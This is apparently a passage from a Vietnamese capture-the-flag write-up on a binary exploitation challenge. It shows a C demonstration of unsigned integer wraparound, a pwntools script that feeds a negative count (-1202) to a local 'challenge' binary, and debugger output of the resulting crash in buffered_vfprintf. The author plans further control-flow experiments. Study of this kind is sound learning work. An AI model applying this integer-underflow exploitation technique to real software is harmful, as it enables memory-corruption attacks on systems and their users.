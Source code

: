 ```c
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>

int main(){
size_t i = -1;
size_t x = 10;
printf("%zu %ld\n", i, i);
printf("%zu %ld\n", x, x);
printf("%zu %ld\n", i+x, i+x);
return 0;
}
```
    output:
    18446744073709551615 -1
    10 10
    9 9

Phép cộng thì vẫn cho ra kết quả bình thường miễn là số dương nên mình nghĩ là có thể.

## Exploit

```python
from pwn import *
exe = ELF('challenge', checksec=False)
p = process(exe.path)
input()
for i in range(5):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'name: ', b'1'+b'2'*i)
    if i == 4:
        p.sendlineafter(b'them: ', b'-1202')
        break
    p.sendlineafter(b'them: ', b'99')
p.interactive()
```
Chạy một lúc thì gặp lỗi `xmm0` ở hàm `print`

```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
  ...
 → 0x7efc8bb26e98 <buffered_vfprintf+184> movaps XMMWORD PTR [rsp+0x40], xmm0
  ...
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge", stopped 0x7efc8bb26e98 in buffered_vfprintf (), reason: SIGSEGV
```
Nên mình sẽ thử nhảy vào các câu lệnh sau thử xem như thế nào
